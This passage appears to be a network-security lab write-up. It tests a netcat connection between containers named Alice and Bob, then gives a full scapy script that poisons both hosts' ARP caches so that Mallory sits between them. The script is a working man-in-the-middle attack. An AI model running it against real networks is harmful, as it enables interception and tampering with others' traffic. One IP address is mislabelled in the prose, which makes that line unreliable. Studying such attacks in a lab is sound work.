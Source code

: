 Note: The docker containers were restarted, so the IP's changed from the earlier IP's used

Initially, we ensure the ARP tables remain untainted and authentic by pinging Alice from Bob.

- On Host Bob, initiate a netcat listener with the command: `nc -nlvp 9090`.
- On Host Alice, establish a connection to Bob by executing: `nc 10.0.227.4 9090`, where `10.0.227.4` is Alice's designated IP address.

**Alice's Terminal:**
![Alice](alice_nc_no_poison.png)

Alice sends the message 'testing'.

**Bob's Terminal:**
![Bob](bob_nc_no_poison.png)

Bob, listening on port 9090, receives the message 'testing'.

Next, we disable IP forwarding on Mallory, followed by executing a script to poison the ARP caches of both Alice and Bob.


```python
from scapy.all import *
import time

# Updated IP and MAC addresses
A_IP = "10.0.227.2"
B_IP = "10.0.227.4"
M_IP = "10.0.227.3"

A_MAC = "02:42:0a:00:e3:02"
B_MAC = "02:42:0a:00:e3:04"
M_MAC = "02:42:0a:00:e3:03"

def arp_poison(target_ip, target_mac, spoof_ip, spoof_mac):
    # Creating the Ethernet frame to look like it's from spoof_mac to target_mac
    ethernet_frame = Ether(src=spoof_mac, dst=target_mac)
    # Creating an ARP request pretending spoof_ip is at spoof_mac
    arp_request = ARP(hwsrc=spoof_mac, psrc=spoof_ip, hwdst=target_mac, pdst=target_ip, op=2)  # ARP reply
    # Combining and sending the packet
    packet = ethernet_frame / arp_request
    sendp(packet, iface="eth0", verbose=False)
    print(f"Sent ARP reply: {spoof_ip} is at {spoof_mac} to {target_ip}")

while True:
    # Poison Alice's ARP cache to make her think Mallory is Bob
    arp_poison(A_IP, A_MAC, B_IP, M_MAC)
    # Poison Bob's ARP cache to make him think Mallory is Alice
    arp_poison(B_IP, B_MAC, A_IP, M_MAC)
    time.sleep(5)  # Sleep for 5 seconds before sending the next set of ARP packets

```